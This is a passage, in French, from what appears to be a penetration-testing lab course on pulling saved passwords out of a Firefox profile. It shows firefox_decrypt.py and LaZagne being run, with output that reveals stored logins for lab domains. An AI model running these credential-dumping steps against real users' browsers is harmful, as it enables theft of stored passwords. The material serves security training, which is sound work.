 ```
}
```

L'outil Firefox Decrypt est excellent pour décrypter ces informations d'identification et est mis à jour régulièrement. Il nécessite Python 3.9 pour exécuter la dernière version. Sinon, Firefox Decrypt 0.7.0 avec Python 2 doit être utilisé.

Déchiffrer les informations d'identification de Firefox

```
dsgsec@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Alternativement, LaZagne peut également renvoyer des résultats si l'utilisateur a utilisé le navigateur pris en charge.

```
cry0l1t3@unixclient:~$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```